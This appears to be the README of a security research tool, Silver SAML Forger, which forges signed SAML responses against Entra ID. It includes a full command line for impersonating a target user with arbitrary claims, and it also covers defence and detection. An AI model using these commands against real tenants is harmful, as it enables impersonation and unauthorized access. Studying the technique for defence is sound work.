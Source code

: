 
# Silver SAML Forger

Silver SAML Forger is C# tool that helps you create custom SAML responses. It can be used to implement the Silver SAML attack. 

More details are avaiable in this post [Meet Silver SAML, Golden SAML In the Cloud](https://www.semperis.com/blog/meet-silver-saml/).




## Defend against Silver SAML

To safeguard effectively against Silver SAML attacks in Entra ID, your organization should only use Entra ID signed certificates for SAML signing purposes.
SAML signing certificates are stored in the service principal for a SAML application in Entra ID. You can use the Microsoft Graph API to view the information that is exposed about the signing key. Simply call a GET request to the following URI: https://graph.microsoft.com/beta/servicePrincipals/{serviceprincipalobjectid}

Organizations can audit existing service principals that are configured for SAML and check the displayName. If the currently used certificate is generated by Microsoft, the certificate will contain the value CN=Microsoft Azure Federated SSO Certificate. However, nothing prevents an attacker from importing an external certificate that has the same name.

Example of the exposed information -  Note that the private key material is not exportable, preventing attackers from gathering the information they need to launch a Silver SAML attack.
```
      {
            "customKeyIdentifier": "Gk//vUF/JYC58HRyyuGMM5ydmOuJVUL74R6OszKQn6w=",
            "endDateTime": "2026-08-08T14:19:35Z",
            "keyId": "66ad0fe4-111d-45da-924c-545913d77be9",
            "startDateTime": "2023-08-08T14:19:36Z",
            "type": "AsymmetricX509Cert",
            "usage": "Sign",
            "key": null,
            "displayName": "CN=Microsoft Azure Federated SSO Certificate",
            "hasExtendedValue": null
        }
```
## Detecting Silver SAML

Organizations can monitor Entra ID audit logs for changes to PreferredTokenSigningKeyThumbprint under ApplicationManagement. You will need to correlate those events to Add service principal credential events that relate to the service principal. The rotation of expired certificates is a common process, so you will need to determine whether the audit events are legitimate. Implementing change control processes to document the rotation can help to minimize confusion during rotation events.

## Usage
The tool requires a set of parameters to be able to generate the SAML responses.
Two options are available : 
    
    1. To manually pass them.
    2. Pass them using a JSON file.


#### generate

Using the generate command we can manually pass the parameters as such - 

- `--pfxFile `  - Specify the path for the pfx file.

- `--pfxPassword `  - Specify the password for the pfx file.

- `--idpid `  - The Identity Provider Identifier.

- `--recipient `  - The recipient in the SAML response.

- `--subjectnameid `  - The subjectNameID in the SAML response.

- `--audience`  - The audience in the SAML response.

- `--attributes` - The attributes/claims inside the assertion in the SAML reponse. In a key,value format.

Example - generate 

    SilverSAMLForger.exe generate --pfxPath C:\path\to\certificate.pfx --pfxPassword mycertpassword --idpid https://myidpid.com --recipient https://thesamlrecipient.com/sso/saml2/random --subjectnameid target@target.com --audience https://someaudience.com/saml2/service-provider/example --attributes http://schemas.microsoft.com/identity/claims/tenantid=<tenantID>,http://schemas.microsoft.com/identity/claims/objectidentifier=<objectID>,http://schemas.microsoft.com/identity/claims/displayname=<displayName>,http://schemas.microsoft.com/identity/claims/identityprovider=<identityProviderID>,http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress=<targetEmail>,http://schemas.microsoft.com/claims/authnmethodsreferences=http://schemas.microsoft.com/ws/2008/06/identity/authenticationmethod/password,http://schemas.xmlsoap.org/ws/2005/05/identity/claims/givenname=<GivenName>,http://schemas.xmlsoap.org/ws/2005/05/identity/claims/surname=<SurName>,<AnythingYouWant>=<AnyValue>


#### generateJSON

Example Json File - 

    {
        "pfxPath": "C:\\Path:\\To\\Certificate.pfx",
        "pfxPassword": "<Password>",
        "idpid": "<IdpId>",
        "recipient": "<Recipient>",
        "subjectnameid": "<SubjectNameID>",
        "audience": "<Audience>",
        "attributes": {
            "http://schemas.microsoft.com/identity/claims/tenantid": "<TetnantID>",
            "http://schemas.microsoft.com/identity/claims/objectidentifier": "<ObjectID>",
		    "http://schemas.microsoft.com/identity/claims/displayname": "<DisplayName>",
            "http://schemas.microsoft.com/identity/claims/identityprovider": "<IdPID",
            "http://schemas.microsoft.com/claims/authnmethodsreferences": "http://schemas.microsoft.com/ws/2008/06/identity/authenticationmethod/password",
            "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/givenname": "<GivenName>",
            "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/surname": "<SurName>",
            "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress": "<Email>",
            "http://schemas.xmlsoap.org/ws/2005/05/identity/claims/name": "<Name>"
		    "<Anything>" : "<Anything>"
        
    }
}

Using the generateJSON command we can generate a SAML response that loads the parameters from a json. It needs to be structured as such - 

    SilverSAMLForger.exe generateJSON --jsonFile path_to_json_file.json

The output is a base64 and URL encoded SAML response.

![](./assets/SAMLGeneratedResponse.png)


## Reference

- https://www.semperis.com/blog/meet-silver-saml/
- https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps
